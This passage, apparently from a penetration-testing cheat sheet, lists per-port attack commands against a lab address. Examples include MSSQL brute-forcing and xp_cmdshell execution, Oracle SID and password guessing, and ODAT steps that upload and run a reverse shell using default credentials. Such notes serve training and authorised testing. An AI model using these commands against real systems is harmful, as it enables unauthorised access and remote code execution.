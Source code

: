 ## Port 554 - RTSP

- Web interface, transfer images, streaming


## Port 1030/1032/1033/1038

Used by RPC to connect in domain network.

## MSSQL - 1433

```
nmap -p 1433 -sU --script=ms-sql-info.nse 10.11.1.111
use auxiliary/scanner/mssql/mssql_ping
use auxiliary/scanner/mssql/mssql_login
use exploit/windows/mssql/mssql_payload
sqsh -S 10.11.1.111 -U sa
	xp_cmdshell 'date'
  	go

```

## Port 1521 - Oracle

```
oscanner -s 10.11.1.111 -P 1521
tnscmd10g version -h 10.11.1.111
tnscmd10g status -h 10.11.1.111
nmap -p 1521 -A 10.11.1.111
nmap -p 1521 --script=oracle-tns-version,oracle-sid-brute,oracle-brute
MSF: good modules under auxiliary/admin/oracle and scanner/oracle

./odat-libc2.5-i686 all -s 10.11.1.111 -p 1521
./odat-libc2.5-i686 sidguesser -s 10.11.1.111 -p 1521
./odat-libc2.5-i686 passwordguesser -s 10.11.1.111 -p 1521 -d XE

Upload reverse shell with ODAT:
./odat-libc2.5-i686 utlfile -s 10.11.1.111 -p 1521 -U scott -P tiger -d XE --sysdba --putFile c:/ shell.exe /root/shell.exe

and run it:
./odat-libc2.5-i686 externaltable -s 10.11.1.111 -p 1521 -U scott -P tiger -d XE --sysdba --exec c:/ shell.exe


```

## Port 2049 - NFS

```
showmount -e 10.11.1.111

If you find anything you can mount it like this:

mount 10.11.1.111:/ /tmp/NFS
mount -t 10.11.1.111:/ /tmp/NFS
```
